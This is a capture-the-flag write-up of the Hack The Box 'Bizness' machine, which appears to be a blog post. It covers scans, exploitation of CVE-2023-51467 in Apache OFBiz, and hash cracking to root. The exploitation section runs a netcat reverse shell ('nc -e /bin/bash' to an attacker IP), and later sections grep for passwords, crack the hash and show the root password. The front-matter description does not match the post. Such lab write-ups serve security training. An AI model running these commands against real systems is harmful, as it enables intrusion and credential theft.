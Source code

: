 ```yaml
---
title: HTB Writeup - Bizness
date: 2024-01-11 14:28:47 +07:00
modified: 2024-01-11 14:28:47 +07:00
tags: [blog, netlify, jekyll, github]
description: All the services are free, a source code this site placed on github repository and intergration with netlify service, another service that you can use is github page for hosting your own static site.
---
```


# Information Gathering
```bash
# Nmap 7.94SVN scan initiated Tue Jan  9 14:22:30 2024 as: nmap -p- -sC -sV -A --min-rate 5000 -o nmap.bizness 10.10.11.252
Nmap scan report for 10.10.11.252
Host is up (0.029s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp    open  http       nginx 1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
|_http-server-header: nginx/1.18.0
443/tcp   open  ssl/http   nginx 1.18.0
| tls-nextprotoneg: 
|_  http/1.1
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
| tls-alpn: 
|_  http/1.1
42235/tcp open  tcpwrapped
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=1/9%OT=22%CT=1%CU=33356%PV=Y%DS=2%DC=T%G=Y%TM=659CF
OS:484%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)S
OS:EQ(SP=106%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=106%GCD=2%ISR=10A%TI=
OS:Z%CI=Z%II=I%TS=A)OPS(O1=M552ST11NW7%O2=M552ST11NW7%O3=M552NNT11NW7%O4=M5
OS:52ST11NW7%O5=M552ST11NW7%O6=M552ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88
OS:%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M552NNSNW7%CC=Y%Q=)T1(R=Y%DF
OS:=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z
OS:%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=
OS:Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%
OS:RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
OS:IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 256/tcp)
HOP RTT      ADDRESS
1   29.47 ms 10.10.14.1
2   29.62 ms 10.10.11.252

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jan  9 14:23:48 2024 -- 1 IP address (1 host up) scanned in 78.61 seconds
```

# Directory Enumaration
```bash
dirsearch -u https://bizness.htb/
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/corvuz/hackthebox/bizness/reports/https_bizness.htb/__24-01-09_15-42-52.txt

Target: https://bizness.htb/

[15:42:52] Starting: 
[15:43:04] 400 -  795B  - /\..\..\..\..\..\..\..\..\..\etc\passwd           
[15:43:05] 400 -  795B  - /a%5c.aspx                                        
[15:43:06] 302 -    0B  - /accounting  ->  https://bizness.htb/accounting/  
[15:43:23] 302 -    0B  - /catalog  ->  https://bizness.htb/catalog/        
[15:43:25] 302 -    0B  - /common  ->  https://bizness.htb/common/          
[15:43:25] 404 -  780B  - /common/config/api.ini                            
[15:43:25] 404 -  779B  - /common/config/db.ini                             
[15:43:25] 404 -  762B  - /common/                                          
[15:43:26] 302 -    0B  - /content/debug.log  ->  https://bizness.htb/content/control/main
[15:43:27] 302 -    0B  - /content  ->  https://bizness.htb/content/        
[15:43:27] 302 -    0B  - /content/  ->  https://bizness.htb/content/control/main
[15:43:27] 200 -   34KB - /control/                                         
[15:43:27] 200 -   34KB - /control
[15:43:28] 200 -   11KB - /control/login                                    
[15:43:29] 404 -  763B  - /default.html   
```
Using dirsearch i found a foothold in a form of login page in the directory */control/login* 

<img src="/assets/blog-images/htb-bizness/image1.png" alt="Login Page">

# Vulnerability Analysis
Doing some research on google to get to know about the version whether it's outdated or not.
<img src="/assets/blog-images/htb-bizness/image2.png" alt="sources">

found many resources that talked about the critical cve let's check the first one.
<img src="/assets/blog-images/htb-bizness/image3.png" alt="cybersecuritydive.com">

We can see that service has outdated version which have vulnerability CVE-2023-51467 that could allowing an attacker to execute arbitrary code without authentication.

# Exploitation
Found this amazing poc that can make us easier to exploit the service. Clone the repository, and run as suggested.
<img src="/assets/blog-images/htb-bizness/image4.png" alt="POC">

The poc runs well, now we able to get the rce using this command:
`python3 exploit.py --url https://bizness.htb/ --cmd 'nc -e /bin/bash 10.10.14.59 1337'`
<img src="/assets/blog-images/htb-bizness/image5.png" alt="exploitation">

We got the  user flag
<img src="/assets/blog-images/htb-bizness/image6.png" alt="Use Flag">

# Privilege Escalation
found hash on */opt/ofbiz/runtime/data/derby/ofbiz/seg0*  `$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I`
by using this grep command `grep -arin -o -E (\w+\W+){0,5}password(\W+\w+){0,5}' .`

<img src="/assets/blog-images/htb-bizness/image7.png" alt="hash">

a bit of explanation about the purpose of the command:
1. **`grep`**: This command is used for searching text patterns in files.
    
2. **`-a`**: This option forces `grep` to treat binary files as text. It can be useful when searching through files that may contain binary data.
    
3. **`-r`**: This option makes `grep` search recursively through directories, including subdirectories.
    
4. **`-i`**: This option makes the search case-insensitive, meaning it will match "password," "Password," "PASSWORD," etc.
    
5. **`-n`**: This option displays the line numbers along with the lines that match the pattern.
    
6. **`-o`**: This option prints only the matched parts of a line, rather than the entire line.
    
7. **`-E`**: This option enables extended regular expressions, allowing the use of parentheses `{}` for specifying repetition.
    
8. **`'(\w+\W+){0,5}password(\W+\w+){0,5}'`**: This is the regular expression being searched for. Let's break it down:
    
    - **`(\w+\W+){0,5}`**: This part matches up to 5 occurrences of word characters (`\w`) followed by non-word characters (`\W`). This allows for any characters (including spaces, punctuation, etc.) between the beginning of the line and the word "password."
    - **`password`**: This is the literal string "password" that the command is searching for.
    - **`(\W+\w+){0,5}`**: This part matches up to 5 occurrences of non-word characters followed by word characters. This allows for any characters between the word "password" and the end of the line.
9. **`.`**: This specifies the current directory as the location to search.

decode it using  [cyberchef](https://gchq.github.io/CyberChef/#recipe=Find_/_Replace(%7B'option':'Regex','string':'_'%7D,'/',false,false,false,false)Find_/_Replace(%7B'option':'Regex','string':'-'%7D,'%2B',false,false,false,false)From_Base64('A-Za-z0-9%2B/%3D',false,false)To_Hex('None',0)&input=dVAwX1FhVkJwRFdGZW84LWRSekRxUndYUTJJ)

<img src="/assets/blog-images/htb-bizness/image8.png" alt="cyberchef">
use 120 mode `sha1($salt.$pass)`
<img src="/assets/blog-images/htb-bizness/image9.png" alt="Hashcat Module">
Append the salt “:d” to crack it with hashcat
<img src="/assets/blog-images/htb-bizness/image10.png" alt="hashcat">
using this command `hashcat -a 0 -m 120 hash /home/corvuz/SecLists/Passwords/Leaked-Databases/rockyou.txt` we able to crack the hash.

<img src="/assets/blog-images/htb-bizness/image11.png" alt="Login Page">

now just su and use the password `monkeybizness`
 